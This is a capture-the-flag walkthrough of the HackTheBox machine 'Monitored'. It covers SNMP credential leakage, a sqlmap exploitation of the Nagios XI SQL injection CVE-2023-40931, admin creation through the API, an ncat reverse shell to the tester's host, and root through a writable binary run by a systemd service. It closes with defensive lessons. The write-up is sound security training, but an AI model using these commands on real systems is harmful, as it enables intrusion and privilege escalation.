

<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Debian 12), **Difficulty:** Medium, **Released:** 2024-01-27, **IP:** `10.10.11.248` , `nagios.monitored.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. **SNMP** (161/udp) leaks a process command line that contains credentials: `svc : XjH7VCehowpR1xZB`.
2. The site is **Nagios XI**. The `svc` account is disabled for web login but still works against `POST /nagiosxi/api/v1/authenticate` to get an `auth_token`.
3. With the token, `admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=` is **SQL injectable** (**CVE-2023-40931**). sqlmap dumps `xi_users` and recovers the admin **`api_key`** (the bcrypt hash is not crackable, but the key is all you need).
4. Use the admin API key to **create a new admin user**, then use the Nagios XI configuration to define a **command / service** that runs an arbitrary shell command. Reverse shell as **`nagios`**.
5. `nagios` can write `/usr/local/nagios/bin/npcd`, which a root systemd service (`npcd.service`) executes. Replace it with a SUID bash script and restart the service. Root.

</div>

<div class="callout callout-key">

**Credentials and Flags**


| Where | Value |
| --- | --- |
| SNMP process args | `svc : XjH7VCehowpR1xZB` |
| Nagios XI admin `api_key` | `IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL` |
| `user.txt` | `/home/nagios/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

Monitored gave me a good look at just how much SNMP can leak when nobody bothers to lock it down. My foothold here came from **SNMP leaking process arguments**: a cron job on the box runs `sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB`, and SNMP's `hrSWRunParameters` table happily exposes that entire command line, credentials included, to anyone who can query it with the default `public` community string. From there, the web-facing chain turned out to be a real, documented CVE, **CVE-2023-40931**, an authenticated SQL injection in the banner message helper. What made it interesting to actually exploit was the twist that the `svc` account is disabled at the login page but still authenticates just fine through the API, so I ended up with a valid session token even though the UI itself rejected the credentials outright. Once I had that token, the SQLi handed me the admin API key, and from an admin API key it is a short hop to building a Nagios "check command" that runs an arbitrary shell command on my behalf. Root came down to one of the most common Linux privilege escalation patterns I run into: a **writable binary invoked by a root-owned systemd unit**, which meant I only had to replace the binary and restart the service to get code execution as root.

Related SNMP boxes: [Antique](/writeups/hackthebox/linux/easy/antique/) (JetDirect password in an OID). Related Nagios/monitoring N-day chains: [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/) (Cacti), [Cactus](/writeups/tryhackme/linux/easy/cactus/). Related writable service to root: [Bizness](/writeups/hackthebox/linux/easy/bizness/), [Nexus](/writeups/hackthebox/linux/easy/nexus/), [Hack Smarter Security](/writeups/tryhackme/windows/medium/hack-smarter-security/).

---

## Full Walkthrough

### Recon



Pasting the IP into a browser redirected me to a subdomain, so I added `nagios.monitored.htb` to `/etc/hosts` to get the site rendering properly. I tried the usual default credentials against the Nagios login page first, purely to rule it out, but got nowhere.

### SNMP leaks svc credentials

A UDP scan turned up SNMP listening, which is always worth a close look on a box like this since it so often leaks more than administrators expect. I used nmap's SNMP scripts to pull process information off the host and found what looked to me like a live credential sitting in a command line:

```bash
sudo nmap -Pn monitored.htb -p161 -sU -T5 --script=snmp-processes.nse -vv
```

```console
|   556:
|     Name: sh
|     Path: /bin/sh
|     Params: -c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB
```

(The full `snmp-processes` output ran to roughly 700 lines, mostly kernel threads, so I have trimmed it down here to the one line that actually mattered: the `check_host.sh` invocation with the password sitting right there in argv.)

<div class="callout callout-note">

**SNMP process argument disclosure**

This is a technique I always try early against any host running SNMP: `snmpwalk -v2c -c public <host> 1.3.6.1.2.1.25.4.2.1.5`, which queries the `hrSWRunParameters` OID and lists the arguments of every running process on the box. Any script or tool that was ever started with a password baked into its command line, things like `./tool -p Secret123` or `mysql -pSecret`, becomes readable by a completely unauthenticated SNMP client the moment that process runs. It is a good reminder, both to myself and in any report I write, that secrets belong in environment variables or protected files, never in argv, and that default community strings like `public` need to be changed the moment SNMP goes live on a host. Beyond process arguments, I also make a habit of running `snmpbulkwalk` and `snmp-check` against the same host, since they often reveal installed software, listening ports, and mounted shares that never show up in a plain port scan.

</div>

### Nagios XI, token via the API

With that credential pair in hand, I turned my attention to the Nagios XI web application itself:

```console
svc:XjH7VCehowpR1xZB
```

Trying it against the login page failed outright, the `svc` account is disabled for the web UI, but on a hunch I tried the API instead and found it still issues a valid token:

```bash
curl -X POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' \
  -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5'
```

### CVE-2023-40931, SQL injection in banner_message-ajaxhelper.php

With a fresh `auth_token` from the API, I turned to the vulnerable endpoint and let sqlmap handle the injection testing for me:

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<token>" \
  --level 5 --risk 3 -p id --batch --threads=10
```

```console
Parameter: id (GET)
    Type: boolean-based blind / error-based / time-based blind
    back-end DBMS: MySQL >= 5.0 (MariaDB fork)
available databases [2]: information_schema, nagiosxi
```

<div class="callout callout-note">

**CVE-2023-40931**

Digging into what this CVE actually is, Nagios XI versions 5.11.0 through 5.11.1 fail to parameterise the `id` parameter of `acknowledge_banner_message` inside `banner_message-ajaxhelper.php`. The endpoint does require a valid session token, which I already had thanks to the API authentication quirk, but once past that check, `id` flows straight into a SQL statement with no sanitisation at all. My target from the moment I confirmed the injection was the `xi_users` table, and specifically the `api_key` column for the `nagiosadmin` account, because that single value would let me drive the entire admin API without ever needing to crack a password.

</div>

With the injection confirmed, dumping the users table directly was the obvious next step:

```bash
sqlmap -u "...&token=<token>" -p id --batch -D nagiosxi --dump xi_users --no-cast
```

```console
| user_id | username    | api_key                                                          | password (bcrypt) |
| 1       | nagiosadmin | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | $2a$10$825c1eec... |
```

The recovered admin password hash is bcrypt, which I was not going to bother trying to crack given the time it would take, but I did not need to: the `api_key` alone was enough to hit the admin API directly and create a new administrative user for myself.

```bash
curl -k -X POST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudG...CHLL&pretty=1" \
  -d "username=baphomet&password=fuckedbybaphomet&name=nadmin&email=baphomet@monitored.htb&auth_level=admin"
# {"success": "User account baphomet was added successfully!"}
```

### RCE as nagios via a check command

I logged in with the new admin account and went looking for a feature that would let me turn configuration control into code execution. Nagios's Core Config Manager gave me exactly that: under **Configure -> Core Config Manager -> Commands**, I added a new command whose command line was really just a reverse shell one-liner, then created a **Service** that referenced it and ran a Check Command against it to trigger execution.

```
$USER1$/ncat 10.10.14.198 9001 -e /bin/bash
```

Running the check command paid off immediately: I caught a shell back as `nagios`, and `user.txt` was sitting right there in the home directory.

### Privilege Escalation, writable npcd

I ran `linpeas` as my first pass at enumeration from this new foothold, and it immediately flagged a root-owned systemd unit calling a binary I could write to:

```console
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
```

I also checked what sudo privileges `nagios` had been granted, since that would matter for actually restarting the service:

```console
nagios@monitored:~$ sudo -l
User nagios may run the following commands:
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh
```

<div class="callout callout-note">

**Writable ExecStart + `sudo` service control = root**

Putting these two findings together made the path to root obvious: `npcd.service` runs `/usr/local/nagios/bin/npcd` as root, and the `nagios` user I was now running as had write access to that exact file. The sudo rule I had just found meant I could also stop and start `npcd` through `manage_services.sh` without needing root myself. That combination is about as clean a privilege escalation as they come: overwrite the binary the root-owned service will execute, then use the permitted sudo command to restart the service and have it run whatever I put there as root.

</div>

Putting it into practice, I dropped in a replacement binary that sets the setuid bit on bash, restarted the service through the permitted sudo commands, and grabbed a root shell:

```bash
cat > /usr/local/nagios/bin/npcd <<'EOF'
#!/bin/bash
chmod u+s /bin/bash
EOF
chmod +x /usr/local/nagios/bin/npcd
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
/bin/bash -p
cat /root/root.txt
```

(I also noticed an Ansible Vault secret sitting in `/usr/local/nagiosxi/scripts/automation/ansible/.../secrets.yml` while I was poking around, which looked like it could have been a second path to root, but the `npcd` route was faster and I did not need to chase it down.)

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/nagios/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons and Takeaways

- **Never put a secret on a command line.** This box is a perfect illustration of why: SNMP, `ps`, `/proc/<pid>/cmdline`, audit logs, and shell history all expose argv to anyone who can query them, and here that one design decision was the entire foothold. Secrets belong in environment files with tight permissions, or in a proper secrets manager, never as a literal command-line argument.
- **Change SNMP community strings away from the default, and restrict SNMP to a dedicated management network.** `public` with read access to process and system information is functionally an open door, and it is one of the first things I test on any external-facing host.
- **A disabled account is not the same thing as a revoked account.** I would not have gotten anywhere on this box if the `svc` account's disablement had actually propagated to the API layer instead of just the web login form. If an account is meant to be disabled, that has to mean every authentication path, API, LDAP, SSH, all of it, or it is not actually disabled.
- **Patch Nagios XI against CVE-2023-40931**, and more generally, parameterise every single query rather than trusting that a particular endpoint will never see attacker-controlled input.
- **Root-owned systemd units must never point at a binary that a lower-privileged user can write to.** This is a pattern I now specifically audit for on every Linux box I touch: check every `ExecStart` path in every unit file running as root, and check the write permissions on the binary itself and on every directory in its path.

---

## Related Writeups

- **SNMP enumeration / leaks:** [Antique](/writeups/hackthebox/linux/easy/antique/)
- **Monitoring stack N-day (Cacti / Nagios):** [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/), [Cactus](/writeups/tryhackme/linux/easy/cactus/)
- **Authenticated SQLi with sqlmap and a token:** [PC](/writeups/hackthebox/linux/easy/pc/), [Usage](/writeups/hackthebox/linux/easy/usage/)
- **Writable service / ExecStart to root:** [Bizness](/writeups/hackthebox/linux/easy/bizness/), [Nexus](/writeups/hackthebox/linux/easy/nexus/), [Hack Smarter Security](/writeups/tryhackme/windows/medium/hack-smarter-security/)

## References

- CVE-2023-40931 (Nagios XI SQLi) <https://outpost24.com/blog/nagios-xi-vulnerabilities/>
- SNMP process argument disclosure <https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp>
- Nagios XI API docs <https://support.nagios.com/kb/article/nagios-xi-understanding-the-api-2-114.html>
